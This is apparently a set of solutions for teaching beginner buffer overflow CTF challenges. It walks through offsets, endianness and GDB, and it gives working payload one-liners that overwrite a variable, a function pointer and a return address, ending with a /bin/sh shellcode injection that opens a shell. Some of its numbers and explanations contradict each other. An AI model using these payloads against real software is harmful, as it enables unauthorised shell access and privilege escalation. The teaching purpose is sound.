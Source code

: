 # Solutions 
- This is a list of solutions to various *buffer overflow* challenges. 
- This is meant to ease students into the area, instead of drowning them on redirecting execution right away

## Firsty 
- The buffer is 32 characters long but accepts 0x100 characters. What happens if we write more than 32 characters? In particular, write 32 to get the flag. It's 32 and not 33 because of the NULL byte that gets written.
- The stack is setup in the following way:
	- my_string 
	- special_int 
- So, when the string gets added with more than 16 characters, then **cool_int** is overwritten!
- Simply corrupting this value is enough to pass the challenge.
- python3 -c 'print("A" * 32)' | ./firsty


## Dead 
- A little bit more tricky! 
- The overflow is the same as before, with the same stack setup. The ``my_string`` field of the struct overflows into ``special_int`` after 32 bytes. This is because the string itself is 32 bytes. 
- But, instead, we are using the overflow to **set** the integer value to a specific value! The char array is 32 byets long. Then, the integer is 4 bytes long.
- There are two main tricks to this: 
	- Writing the bytes properly 
	- Endianness
- Writing bytes: 
	- We are trying to write the integer 0xdeadbeef into memory.
	- The hex stream \xef is not a normal character. So, how do we write this? 
	- In Python (Python 2 at least) you can write escaped bytes with hex codes. 
	- Python example: print "\xef" 
		- This would print the literal byte 0xef
	- Common: 
		- Students will try to print the literal 0xdeadbeef. This will not work because this is intertuped as an integer.
- What is endianness? 
	- The ordering in which bytes are organized in memory. x86 is little Endian, meaning that the least significant byte appears first.
	- So, with 0xdeadbeef, we need to write this in the following way: 0xefbeadde. 
	- Remember, we are writing BYTES. 0xef is a SINGLE byte still.
- Final payload:
	- `python3 -c "import sys; sys.stdout.buffer.write(b'A' * 32 + b'\xef\xbe\xad\xde')" | ./dead`
	- Prints the proper bytes (with the Python hex escaping) and prints it in the proper Endinness.

## KillPtr
### Vuln Hunting:
- This is the same vulnerability as the previous challenges: a linear buffer overflow inside the ``danger`` struct from the ``my_string`` field. 
- This time, there is an extra field called ``functionPtr`` on this challenge. We want to corrupt this to change the flow. 
	- It is our goal to edit the *function pointer address* to point to something that we want to call.
- Second, figure out the offset. It's the same 32 bytes as before then an additional 4 for the integer field. 
- Third, go into GDB to figure out the address of the function ``print_flag``. Do this by typing in `disas print_flag`. This will give you an address to jump the flow of the program to, which is 0x8048586. 

### Exploit
- 1. Because the OS's Endian, we need to turn the Big Endian (i.e. 0x80485c3) into little Endian (i.e. 0xc3850408). Notice that this is PER byte. 
- 2. Since we are writing raw values to the stack, we need to use hex code to do this. In order to do this, we must write the characters prefaced with `\x`. So, in the example, turn `0x565556b4` into `\xb4\x56\x55\x56`. Add this value to the payload.
- 3. If all is done right, you should have redirected execution of the program to where the flag is at, displaying the flag.
- 4. My final payload is `python3 -c "import sys; sys.stdout.buffer.write(b'A' * 32 + b'B' * 4 + b'\x56\x88\x04\x08')" | ./killPtr`

## CorruptRet
- The concept is the same as the previous challenge for endianness and overflowing a pointer. But, this time, we are overwritting the EIP (instruction pointer) of the location. 
- The stack contains other important data relating to the previous stack frame: base pointer, stack pointer and instruction pointer. 
- If we can change the instruction pointer to be ``print_flag()`` then we can redirect the flow of execution! 
- The overflowing into the ``int`` is 32 bytes. 4 bytes through the int. Then, we have to care about the rest of the information on the stack. 
- Difference between ``&my_data`` and the location of the old IP is (0xffffd65c - 0xffffd62c) = 0x30. This is a total of 12 bytes more until the overflow. 
	- When ``leave()`` is called, this puts in the proper ebp from the previous frame is recovered. Additionally, there are two other bytes there that I am not sure about. 
	- The best way to find this offset is to *pause* at the first instruction of the function. 
	- Then, look at the stack pointer and you'll see the old EIP.
	- Compare this with the pointer to ``&my_data``. 
	- Subtract these pointers to get the amount of bytes to write. 
- Overflowing for 0x30 bytes will get us to the EIP. 
- Set this to the address of ``print_flag()`` like the previous challenge to get the flag.

```
python3 -c "import sys; sys.stdout.buffer.write(b'A' * 32 + b'B' * 4 + b'C' * 12 + b'\x56\x88\x04\x08')" | ./corruptRet
```

## execStack 
- Without an easy *win* function, we need to pop a shell on our own!
- Since the stack is executable, we can put our own code onto the stack and run that. But how!? 
	- The key to this is writing raw machine code. 
- We can put the raw machine code into the beginning of our input. Then, overwrite the return address (like the previous challenge) to jump to our machine code instead. 
	- The address of the machine code is printed at away in the program. 
	- Makes it obvious to see what's going on :) 
- You can find machine code (shellcode) online that works pretty quickly to pop a shell.
- A few tricks: 
	- Shellcode: 
		- Literally pops a shell.
		- Calling the syscall ``execve`` with ``/bin/sh`` as the parameters.
		```
		xor    %eax,%eax    -- Clean EAX to use as NULL
		push   %eax	        -- Push a null byte
		push   $0x68732f2f  -- Push part of /bin/sh
		push   $0x6e69622f  -- Push another part of /bin/sh
		mov    %esp,%ebx    -- Param 1 - binary to execute
		push   %eax         
		push   %ebx 
		mov    %esp,%ecx    -- Param 2 - Path of execution
		mov    $0xb,%al     -- The syscall (11) for execve
		int    $0x80        -- syscall interrupt
		```
		- https://shell-storm.org/shellcode/files/shellcode-827.html
	- Keeping the pipe open: 
		- The way we give input is SUPER important...if we don't have a way to interact with it, the code will DROP our input. 
		- So, we must have the extra ``cat -`` at the end of it. 
	- Stack pointer address will *differ* slightly between GDB and the live one. Keep this in mind.
- Shenanigans of the challenge: 
	- ``/bin/sh`` goes back to the original uid instead of the euid. So, we have to find a way to get the proper permissions for this...
		- This is done by becoming root then dropping the permissions to a user in the group that can read the flag. 
		- Now, the uid is the set and the shell will have the proper permissions. 
	- Clear edx: 
		- There is a short bit of assembler in the code...
		- This is because 'edx' being set to a non-null value screws everything up, since it acts as the third parameters ``envp``. 
		- Hence, we clear ``edx`` to make everyone's life easier. 
	- ASLR is turned off - so, the address can be static. It's even printed out to make our lives easier. 

```
(python3 -c "import sys; sys.stdout.buffer.write(b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + b'A' * (-23 + 32 + 4 + 12) + b'\x7c\xd6\xff\xff\x0A' + b'whoami')"; cat -) | ./execStack
```

What's going on!? 
- setuid is not working as expected on a forked call... 'system' doesn't inherit permissions from setuid. Probably a good thing! But... I've never seen this before!
- https://stackoverflow.com/questions/16258830/does-system-syscall-drop-privileges

### Further explanation:
- How the stack works:
    - On load of a function, the function address is pushed, followed by ebp then local variables (if needed).
    - Last on, first off style.
- Little Endian vs Big Endian:
    - https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html
    - The location of the significance of the value. Most general number systems are little Endian (little end first) 1234 would be 1 x10^3+ 2x10^2 + 3x10^1 + 4x10^0 for instance. Big Endian would be 4x10^3....
- gdb:
    - This is a debugger
    - https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
